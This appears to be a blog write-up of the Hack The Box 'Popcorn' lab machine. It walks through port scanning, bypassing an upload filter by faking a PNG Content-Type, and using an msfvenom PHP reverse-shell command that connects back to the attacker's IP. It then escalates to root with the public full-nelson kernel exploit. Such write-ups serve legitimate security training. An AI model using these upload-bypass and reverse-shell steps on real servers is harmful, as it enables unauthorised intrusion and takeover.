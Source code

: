 ```yaml
---
layout: post
title: HTB - Popcorn Writeup
date: 2019-01-06
image: '/images/posts/htb/popcorn/popcorn.jpg'
categories: ["writeups"]
tags: ["writeups", "popcorn", "htb"]
---
```


* Box: Popcorn
  - Difficulty: Medium
  - Points: 20
  - Release: 15 Mar 2017
  - IP: 10.10.10.6

### Initial Enumeration

#### 1.Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA popcorn.nmap 10.10.10.6`

We can see 22 and 80 are open. Let's navigate to the web browser and access the webpage on port 80.

<img src="/images/posts/htb/popcorn/popcorn1.jpg">

#### Directory Enumeration

Running Dirbuster with the lowercase medium directory list shows us a directory called "torrent". So let's navigate to that directory in the browser.

<img src="/images/posts/htb/popcorn/popcorn2.jpg">

After navigating to the page, we see that we can sign up and upload only **.torrent** files

### Exploitation

#### Testing what we can do/not do with uploads

Let's upload a test .torrent file and see what happens:

<img src="/images/posts/htb/popcorn/popcorn3.jpg">

Note that after submitting the file, we can see an "Edit Settings" option. Clicking this shows us the ability to upload screenshots in PNG format.

<img src="/images/posts/htb/popcorn/popcorn5.jpg">

<img src="/images/posts/htb/popcorn/popcorn4.jpg">

<img src="/images/posts/htb/popcorn/popcorn9.jpg">


This upload has 2 checks. It will confirm the uploaded file matches valid image extensions and it will check the POST data **Content-Type** is set to **image/png**.

Simply create a reverse shell payload and name it something like "write.png.php"
This command will generate one for you:

`msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.9 lport=444 -f raw`

Load up BurpSuite to intercept the file transfer. This will allow us to edit the parameters before they are forwarded to the web server.

Upload this file in the "Edit Settings" option as if it were a screenshot.

Your burpsuite should something like the below. You will want to change "application/php" to "image/png" and remove the ".png" portion from the filename.

<img src="/images/posts/htb/popcorn/popcorn8.jpg">

Our DirBuster results show a  "torrents" directory. Navigating to that shows us another "upload" directory within. Here we can see a list of all file uploads.

Next, we're going to set up a listener and capture the reverse_tcp shell.

#### Metasploit

Load up metasploit and set a listener for the php/meterpreter/reverse_tcp payload you just uploaded.

<img src="/images/posts/htb/popcorn/popcorn7.jpg">

Once the listener is started, you can go ahead and click on the file in the "/torrent/upload" directory.
This should execute the file you uploaded and establish a connection back to your metasploit listener.
<img src="/images/posts/htb/popcorn/popcorn6.jpg">
Once we're in, the user flag can be found at **/home/george/user.txt**

<img src="/images/posts/htb/popcorn/popcorn11.jpg">

### Privilege Escalation

Getting root is fairly trivial, we can use the known exploit called "full-nelson".

We just need a way to get the C code for the exploit onto this machine.

More information on that exploit here: [exploits/15704](https://www.exploit-db.com/exploits/15704)

I just went ahead and setup a "**python -m SimpleHTTPServer**" and used "**wget**" to pull the file from my attacking box.

Once the file is present, compile it and run it like so:

You will get a root shell and can find the root flag in **/root/root.txt**

<img src="/images/posts/htb/popcorn/popcorn10.jpg">
